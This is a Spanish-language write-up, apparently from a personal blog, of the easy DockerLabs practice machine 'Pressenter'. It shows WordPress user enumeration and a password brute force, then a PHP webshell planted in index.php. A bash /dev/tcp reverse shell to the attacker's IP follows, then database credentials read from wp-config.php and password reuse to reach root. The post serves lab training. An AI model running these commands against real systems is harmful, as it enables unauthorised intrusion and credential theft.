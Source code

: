 ```yaml
---
layout: post
title: "Pressenter"
date: 2024-11-08
 13:05:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pressenter </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos los puertos abiertos de la maquina; en esta ocasion solo tenemos el servicio web de apache.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/pressenter/nmap.png){:.margin}

**2\.** Si revisamos el codigo de la web, vemos que carga recursos internos, este domino lo agregamos a nuestro hosts para que resuelva correctamente este dominio.

`http://172.17.0.2`

`sudo nano /etc/hosts`

`172.17.0.2  pressenter.hl`

![img](/notas/public/img/dockerlabs/pressenter/web.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/webcode.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/hosts.png){:.margin}

**3\.** Nos dirigimos a este dominio, vemos que tenemos un usuario potencial, al final de la pagina especifica que esta diseñado con wordpress.

`http://pressenter.hl`

![img](/notas/public/img/dockerlabs/pressenter/webpressenter.png){:.margin}

**4\.** Enumeramos los plugins vulnerables y usuarios, nos pilla dos usuarios pressi y hacker.

`wpscan --url http://pressenter.hl/ -e vp,u`

![img](/notas/public/img/dockerlabs/pressenter/wpscan.png){:.margin}

**5\.** Haciendo fuerza bruta damos con la contraseña del usuario pressi, no hace falta probar con el otro usuario ya que si vamos al panel login administrativo podemos acceder con este usuario.

`wpscan --url http://pressenter.hl/ -U pressi -P /usr/share/wordlists/rockyou.txt`

`http://pressenter.hl/wp-admin/`

![img](/notas/public/img/dockerlabs/pressenter/wpscanpressi.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/paneladmin.png){:.margin}

**6\.** Vamos a plugins, instalamos  y activamos el administrador de archivos. Luego nos dirigimos al administrador y editamos el index.php, le agregamos el siguiente codigo php para obtener una webshell.

`<?php system($_GET['cmd']);?>`

![img](/notas/public/img/dockerlabs/pressenter/filemanager.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/indexcmd.png){:.margin}

**7\.** Ahora obtendremos una reverse shell, nos ponemos en escucha con nc y nos enviamos la reverse shell.

`nc -nlvp 4000`

`http://pressenter.hl/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/pressenter/reverseshell.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/ncconnected.png){:.margin}

**8\.** Tenemos dos usuarios; revisando los precesos veo mysql activo; revisamos el fichero wp-config.php para encontrar las credenciales a la bd.

`grep bash /etc/passwd`

`ps -ax`

`nano wp-config.php`

![img](/notas/public/img/dockerlabs/pressenter/greppasswd.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/ps.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/wpconfig.png){:.margin}

**9\.** Ingresamos a mysql, listamos las base de datos y le indicamos que queremos usar la bd wordpress. 

`mysql -u admin -prooteable`

`show databases;`

`use wordpress`

![img](/notas/public/img/dockerlabs/pressenter/querys.png){:.margin}

**10\.** Listamos las tablas de la bd wordpress, listamos el contenido de la tabla wp_usernames y ahi tenemos las credenciales del usuario enter.

`show tables;`

`select * from wp_usernames`

![img](/notas/public/img/dockerlabs/pressenter/queryenter.png){:.margin}

**11\.** Migramos al usuario enter; al final esta contraseña se reutilizada para escalar privilegios a root.

`su enter`

`su root`

![img](/notas/public/img/dockerlabs/pressenter/suenter.png){:.margin}
![img](/notas/public/img/dockerlabs/pressenter/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>